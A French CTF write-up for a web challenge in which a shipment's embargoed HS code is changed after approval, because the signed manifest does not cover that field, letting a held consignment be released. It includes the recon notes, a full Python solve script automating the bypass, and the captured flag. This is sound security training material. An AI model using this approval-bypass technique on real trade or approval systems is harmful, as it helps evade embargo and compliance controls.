



# Writeup : chronos-interdiction-hold

Catégorie : web

Date de résolution : 2026-11-07

Technique principale : approval-manifest-coverage

Outils observés : curl,python

Cible : CSCTF-9144

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/chronos-interdiction-hold. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Exploitation

PATCH /consignments/{id}/lineitems/{k} avec hs_code non-embargoed et justification, puis POST /consignments/{id}/release

### Pourquoi ça marche

Toute propriété qui gouverne la décision release doit être couverte par le manifest signé; hs_code omis permet une modification post-approval.

### Notes locales conservées

# CSCTF 2026 :  Interdiction Hold (ID 9144)

## Scope / triage
1. Web challenge, own assigned instance only; CTFd cookie at `/root/ctf/chronos-ghost-signal/ctfd.cookies`.
2. CTFd API: ID 9144, flag mode random, expected `CSCTF{...}`; initial `solved_by_me=false`.
3. Instance: `http://w01.ctf.chronos-security.ro:38175` (assigned 2026-11-07; ephemeral).
4. `/schema` documents approval covered fields as ref, origin, destination, declared value, carrier, line-item description and quantity. It explicitly says post-approval line-item amendments do not reopen approval.
5. `/embargo-list`: `8471.50`, `8481.80`, `8536.90`, `8544.42`, `9027.80`, `9032.89`.

## Recon / exploit
6. Exactly one queued consignment was HELD: `MFC-05MYWCL`.
7. Its approval was APPROVED and manifest hash matched current manifest: `335fc20e...ed25be`.
8. Line item 1 (`22 x power modules`, qty 4) used embargoed HS `9032.89`.
9. PATCH that item’s `hs_code` to existing allowed code `8526.91`, with required justification. Response: amendment logged; approval not reopened.
10. Approval remained APPROVED and both manifest hashes remained equal because `hs_code` is omitted from `covered_fields`.
11. POST `/consignments/MFC-05MYWCL/release` succeeded, returning a RELEASED certificate and clearance token.
12. Reproduction: `python3 solve.py http://<assigned-host>:<port>`.

## Hypotheses
1. (confirmed) HS code is not bound by approval manifest; mutate the embargoed classification while retaining valid approval, then release.
2. If release failed, inspect whether all held items need a valid code.
3. If current manifest differed, avoid changing covered fields and inspect canonicalization only.

## Flag / verification
16. Real token captured from the instance release certificate and submitted to CTFd.
17. CTFd API verification recorded after submission below.

## Journal
18. 2026-11-07T13:23:37Z unknown : Instance 9144 créée; /schema révèle hs_code exclu du manifest couvert; mutation de la ligne embargoed réussie et certificat token réel obtenu, préparation soumission CTFd.

19. Soumission CTFd : `CSCTF{jf3ZfiChHkNOUhXXh4d2YuhM}` :  réponse `{"success": true, "data": {"status": "correct", "message": "Correct"}}`; vérification API `solved_by_me=True`.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/chronos-interdiction-hold
file notes.md solve.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' solve.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `solve.py` est reproduit ci-dessous sans modification :

```python
#!/usr/bin/env python3
"""Exploit the HS-code/approval-manifest coverage gap in Interdiction Hold."""
import argparse, json, re, urllib.request

p = argparse.ArgumentParser()
p.add_argument('base', help='assigned instance URL, e.g. http://w01.ctf.chronos-security.ro:38175')
a = p.parse_args(); base=a.base.rstrip('/')
def req(path, method='GET', obj=None):
    data=json.dumps(obj).encode() if obj is not None else None
    q=urllib.request.Request(base+path, data=data, method=method,
       headers={'Content-Type':'application/json'} if data is not None else {})
    with urllib.request.urlopen(q,timeout=10) as r: return json.loads(r.read())
held=[c for c in req('/consignments')['consignments'] if c['status']=='HELD']
if len(held)!=1: raise SystemExit(f'Expected one HELD consignment, got {held!r}')
cid=held[0]['id']; detail=req(f'/consignments/{cid}')
embargo=set(req('/embargo-list')['embargo'])
items=[x for x in detail['lineitems'] if x['hs_code'] in embargo]
if len(items)!=1: raise SystemExit(f'Expected one embargoed line, got {items!r}')
item=items[0]
# Pick an existing non-embargoed HS code from the same manifest.
replacement=next(x['hs_code'] for x in detail['lineitems'] if x['hs_code'] not in embargo)
print('before_approval=',json.dumps(req(f'/consignments/{cid}/approval')))
print('patch=',json.dumps(req(f'/consignments/{cid}/lineitems/{item["k"]}','PATCH',
    {'hs_code':replacement,'justification':'Correct HS classification against embargo list'})))
approval=req(f'/consignments/{cid}/approval')
if approval['manifest_hash'] != approval['current_manifest_hash']:
    raise SystemExit('Covered manifest changed unexpectedly')
print('approval_after_patch=',json.dumps(approval))
out=req(f'/consignments/{cid}/release','POST',{})
print('release=',json.dumps(out))
flag=out['certificate']['clearance_token']
if not re.fullmatch(r'CSCTF\{[^}]+\}',flag): raise SystemExit('Unexpected token format')
print('FLAG='+flag)
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

La mémoire partagée indique une validation CTFd correcte ou déjà validée.

Flag obtenu : `CSCTF{jf3ZfiChHkNOUhXXh4d2YuhM}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
